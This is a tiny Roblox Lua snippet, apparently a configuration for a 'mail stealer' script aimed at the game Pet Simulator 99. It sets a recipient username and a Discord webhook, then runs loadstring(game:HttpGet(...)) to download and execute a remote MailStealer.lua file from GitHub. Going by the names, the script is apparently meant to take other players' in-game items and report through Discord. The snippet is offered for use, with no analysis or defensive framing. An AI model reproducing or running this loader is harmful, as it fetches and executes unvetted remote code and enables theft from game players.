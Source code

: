 Username = "Clyde_Gaming84"
LoadScreen = true 
Webhook = "https://discord.gg/GHgePcam"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
